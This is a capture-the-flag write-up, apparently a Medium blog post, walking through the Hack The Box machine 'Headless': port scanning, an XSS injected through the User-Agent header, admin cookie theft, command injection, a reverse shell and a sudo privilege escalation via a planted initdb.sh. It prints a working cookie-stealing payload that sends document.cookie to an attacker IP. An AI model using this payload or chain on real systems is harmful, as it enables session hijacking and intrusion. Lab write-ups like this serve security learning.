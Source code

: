 ```yaml
---
title: 'HTB - Headless'
author: themarkib
date: 2024-05-14 20:55:00 +0800
categories: [Hack The Box, CTF]
tags: [aws,subdomain,bugbounty]
---
```



Hello Guys,

It’s me Bikram Kharal back in medium to write about the Seasonal machine of the Hack The Box.

**Initial Enumeration**

First of all i did a simple nmap scan to enumerate all the ports in the box.

`nmap -sC -sV Machine_IP -T4`

![](https://miro.medium.com/v2/resize:fit:700/1*MJt4tOeHyJ8cjDkQfIMHVw.png)

I found that open ports are 22 and 5000.

I saw that port 5000 is running a web service.Visiting that location we got a interface like below:

![](https://miro.medium.com/v2/resize:fit:700/1*FU5nflGiSZrCvBcjkvQMhw.png)

Clicking on  `For questions`  button we got a interface to contact support.

![](https://miro.medium.com/v2/resize:fit:700/1*dm3g5T30TT7x6BEbVkvMjA.png)

By seeing this page i started adding random values and intercepted the proxy with burpsuite.

When i added a simple XSS payload in message section we got prompted with ‘Hacking Attempt Detected.

![](https://miro.medium.com/v2/resize:fit:700/1*HXtpWv91oz0Zz7BkQI2pzA.png)

I suspected that this web service was vulnerable to XSS vulnerability.But no any value send via contact support are getting reflected.

After researching for few minutes , I tried injecting XSS payload in the User-Agent Section and surprisingly it got fired.

![](https://miro.medium.com/v2/resize:fit:700/1*iWoZjJX2cQ1m8RJkB1S5uQ.png)

Now we need to find and construct a XSS payload to steal the cookies of an admin.

After adding below payload on the User-Agent and i started my python server as shown below.

<img src=x onerror=document.location="http://10.10.14.57:8000/?c="+document.cookie>

![](https://miro.medium.com/v2/resize:fit:700/1*UyEkcG0LgNhz5IEpAz26tg.png)

And finally we got admin cookie.

Using admin cookie i again tried to bruteforce the directory if we could get useful path using ffuf.

![](https://miro.medium.com/v2/resize:fit:700/1*vcZ_Rt2LQDqTxwRqBkNyKw.png)

Yes, We got /dashboard path using the admin cookie.

I tried to access the dashboard and interface was like:

![](https://miro.medium.com/v2/resize:fit:700/1*MzOTGQFGqV97R9QI03GMnw.png)

I clicked on  `Generate Report`  button and intercepted the request with burp proxy.

I initially I tried to inject command injection payload and we got the response immediately.

![](https://miro.medium.com/v2/resize:fit:700/1*Gu0A6_MSa2TzO-fa95QK8A.png)

Now it’s time to get reverse shell :)

![](https://miro.medium.com/v2/resize:fit:700/1*MM-iuwMBNg9toggqum0RRQ.png)

Going 1 directory back we got a user.txt

![](https://miro.medium.com/v2/resize:fit:694/1*unCHnlw2UqL8QY8Ha7e8TA.png)

**Post Exploitation**

I tried basic Linux privilege escalation techniques.Using  `sudo -l`  we found that `usr/bin/syscheck` without sudo password.

![](https://miro.medium.com/v2/resize:fit:700/1*QHAWXRiyENKXMoMWPeuvlw.png)

Reading the code of  `syscheck`  file i found that it is running `initdb.sh` file with sudo privilege.

I instantly created a new file called  `initdb.sh`  with reverse shell payload and i runned that  `/usr/bin/syscheck`  file and we got our shell with sudo privilege.

![](https://miro.medium.com/v2/resize:fit:700/1*iBy4UvztV26_vDDlJ87-wA.png)

Thank you all for reading.

Till then Happy Hacking :)